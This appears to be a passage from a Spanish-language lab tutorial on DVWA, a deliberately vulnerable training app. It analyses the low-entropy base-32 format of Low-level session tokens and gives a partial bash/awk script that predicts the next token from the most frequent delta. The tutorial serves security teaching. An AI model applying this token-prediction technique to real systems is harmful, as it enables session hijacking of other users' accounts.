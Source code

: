 El script `prediccion_low.sh` no encontró tokens válidos porque ninguno cumple con el patrón de 32 caracteres hexadecimales. No es un error del script, sino una mala suposición sobre el formato de los tokens generados por DVWA en nivel Low.

Esto demuestra que antes de aplicar heurísticas de predicción, es fundamental analizar el formato real de los datos. En este caso, los tokens no son hashes ni UUIDs, sino cadenas alfanuméricas simples y repetitivas.


## 🧠 ¿Qué podemos hacer en este caso?

Los tokens generados por DVWA en nivel *Low* tienen:

- Longitud fija de **26 caracteres**.
- Un **charset limitado** (`0123456789abcdefghijklmnopqrstuv`).
- Baja entropía y muchas colisiones.

Esto sugiere que no son hashes hexadecimales de 32 caracteres, sino cadenas alfanuméricas simples. Por tanto, debemos adaptar nuestra heurística de predicción.


### 🔄 Alternativa: Predicción en base 32

En lugar de modificar el script anterior, creamos uno nuevo que:

- Convierte los tokens a enteros usando **base 32**.
- Calcula los **deltas** entre ellos.
- Detecta el **delta más frecuente**.
- Predice el siguiente valor.
- Lo convierte de nuevo a base 32.
- Sugiere un posible token para probar en DVWA.

---

#### 🛠️ 1. Crear archivo con `nano`

```bash
nano prediccion_low_base32.sh
```

#### 📄 2. Contenido del script

```Bash
#!/bin/bash

# Convertir tokens de 26 caracteres al entero usando base 32
awk 'length($0)==26 {
  cmd="python3 -c '\''print(int(\""$0"\", 32))'\''"
  cmd | getline v
  close(cmd)
  print v
}' tokens.txt > tokens_int_base32.txt 2>/dev/null

# Verificar si hay datos
if [ -s tokens_int_base32.txt ]; then
  echo "[*] Tokens convertidos a enteros (base 32): $(wc -l < tokens_int_base32.txt)"

  # Calcular deltas
  paste tokens_int_base32.txt <(tail -n +2 tokens_int_base32.txt) \
    | awk '{if(NR>1) print $2-$1}' > deltas_base32.txt

  echo "[*] Primeros deltas:"
  head deltas_base32.txt

  # Detectar delta más frecuente
  delta_frecuente=$(sort deltas_base32.txt | uniq -c | sort -nr | head -n1 | awk '{print $2}')
  ultimo_valor=$(tail -n1 tokens_int_base32.txt)
  siguiente_valor=$((ultimo_valor + delta_frecuente))
```